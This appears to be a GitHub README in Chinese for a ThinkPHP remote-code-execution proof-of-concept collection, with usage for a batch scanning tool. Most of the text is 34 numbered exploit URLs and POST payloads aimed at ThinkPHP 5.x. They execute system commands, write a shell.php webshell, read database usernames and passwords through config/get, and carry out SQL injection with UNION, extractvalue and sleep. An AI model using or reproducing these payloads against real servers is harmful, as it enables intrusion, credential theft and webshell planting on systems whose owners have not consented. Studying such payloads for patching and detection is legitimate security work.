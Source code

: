 # thinkphp-RCE-POC</br>
官方公告:https://blog.thinkphp.cn/869075</br>

用python3和协程编写的think批量测试工具，需要大佬们手动添加payload。</br>
https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection/blob/master/ScanThinkphpRCE-POC.py</br>
使用方法:</br>
usage:</br>
ScanThinkphpRCE-POC.py -f target.txt # 批量检测是否存在thinkPHP代码执行漏洞</br>
ScanThinkphpRCE-POC.py -u target_URL # 指定检测是否存在thinkPHP代码执行漏洞</br>
</br>
POC：</br>
# thinkphp 5.0.22</br>
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username</br>
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password</br>
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5</br>
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1</br>
# thinkphp 5.0.21</br>
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5.1.*</br>
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1</br>
9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd</br>
10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E</br>
11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E</br>
12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
# 未知版本</br>
16、?s=index/\think\module/action/param1/${@phpinfo()}</br>
17、?s=index/\think\Module/Action/Param/${@phpinfo()}</br>
18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}</br>
19、index.php?s=/home/article/view_recent/name/1' </br>
    header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"</br>
20、index.php?s=/home/shopcart/getPricetotal/tag/1%27</br>
21、index.php?s=/home/shopcart/getpriceNum/id/1%27</br>
22、index.php?s=/home/user/cut/id/1%27</br>
23、index.php?s=/home/service/index/id/1%27</br>
24、index.php?s=/home/pay/chongzhi/orderid/1%27</br>
25、index.php?s=/home/pay/index/orderid/1%27</br>
26、index.php?s=/home/order/complete/id/1%27</br>
27、index.php?s=/home/order/complete/id/1%27</br>
28、index.php?s=/home/order/detail/id/1%27</br>
29、index.php?s=/home/order/cancel/id/1%27</br>
30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+</br>
31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1</br>
    Content-Disposition: form-data; name="couponid"</br>
    1') union select sleep('''+str(sleep_time)+''')#</br>
# thinkphp 5.0.23 debug模式（完整版）</br>
32、(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx</br>
# thinkphp 5.0.23(完整版)</br>
33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al</rb>
# thhinkphp 5.0.10（完整版）</br>
34、(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system</rb>
